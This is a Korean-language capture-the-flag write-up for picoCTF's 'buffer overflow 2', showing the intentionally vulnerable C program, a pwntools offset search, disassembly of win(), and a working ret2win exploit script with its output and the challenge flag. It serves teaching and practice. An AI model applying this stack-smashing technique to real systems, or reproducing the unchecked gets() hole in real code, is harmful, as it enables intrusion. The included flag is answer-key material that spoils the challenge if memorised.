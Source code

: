 # [buffer overflow 2](https://play.picoctf.org/practice/challenge/259?category=6&originalEvent=70&page=1)
<br />

**Discription:**
> Control the return address and arguments
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```
<br />

**Binary Protections:**
```yaml
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/buffer_overflow_2/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

## 1. 오프셋 구하기
문제를 풀이하기 위해서는 gets(buf)에서 발생하는 스택 버퍼오버플로우 취약점으로 `RET` 주소를 `win`으로 덮고 실행해야 합니다. 이때, win의 인자와 문제에서 요구하는 값과 일치해야 FLAG가 출력됩니다. 공격 코드를 작성하기 전 버퍼~RET까지의 오프셋을 구해야 합니다.
```bash
$ python3 -q
>>> from pwn import *
>>> p = process("./vuln")
[+] Starting local process './vuln': pid 754
>>> p.sendline(cyclic(200))
>>> p.wait()
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 754)
>>> Corefile("./core.754")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/core.754'
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xff84a760
    Exe:       '/home/kali/pico/vuln' (0x8048000)
    Fault:     0x62616164
Corefile('/home/kali/pico/core.754')
>>> cyclic_find(0x62616164)
112
```
오프셋은 112 입니다.

> [!NOTE]
> 위 처럼 구할 수 있는 이유?
> <br />
>
> 프로그램 종료 전 RET은 스택 최상단에 있는 복귀 주소(Return address)를 꺼내어 EIP에 넣고 프로그램의 흐름을 호출자(main)로 되돌립니다. 그러나 패턴 문자열로 버퍼 오버플로우를 일으키면, 이 복귀 주소가 패턴 데이터로 덮이게 됩니다. 그 결과 RET은 정상적인 복귀 주소 대신 패턴의 일부를 EIP에 복사하게 되고, 프로그램은 잘못된 주소로 점프하려다 크래시가 발생하게 됩니다. 이때 EIP에 저장된 값이 패턴 문자열의 몇 번째 위치인지 확인하면, 버퍼의 시작점에서 부터 Return Address까지의 정확한 오프셋을 계산할 수 있습니다.
<br />


## 2. `win()`함수 인자의 정확한 오프셋 확인하기

```asm
   0x8049371 <vuln+57>    ret

   0x8049300 <win+106>    lea    eax, [ebp - 0x4c]
   0x8049303 <win+109>    push   eax
   0x8049304 <win+110>    call   fgets@plt                   <fgets@plt>

   0x8049309 <win+115>    add    esp, 0x10
 ► 0x804930c <win+118>    cmp    dword ptr [ebp + 8], 0xcafef00d
   0x8049313 <win+125>    jne    win+153                     <win+153>

   0x8049315 <win+127>    cmp    dword ptr [ebp + 0xc], 0xf00df00d
   0x804931c <win+134>    jne    win+156                     <win+156>
```
프로그램을 실행하고 112만큼 값을 입력했을 때,위 결과로 첫 번째 인자는 `ebp + 0x8`에 위치하고, 두 번째 인자는 `ebp + 0xc`에 위치하는 것을 알 수 있습니다. 분석한 정보를 가지고 공격 코드를 작성할 수 있습니다.

```python
from pwn import *

p = process("./vuln")
# p = remote("saturn.picoctf.net", 55191)

pay = b"A"*112
pay += p32(0x8049296)  # win addr
pay += b"A"*4
pay += p32(0xCAFEF00D) # arg1 (ebp + 0x8)
pay += p32(0xF00DF00D) # arg2 (ebp + 0xc)

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
[+] Opening connection to saturn.picoctf.net on port 55191: Done
[*] Switching to interactive mode
Please enter your string:
$
\xf0\xfe\xcaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08AAAA
picoCTF{argum3nt5_4_d4yZ_3c04eab0}[*] Got EOF while reading in interactive
$
```
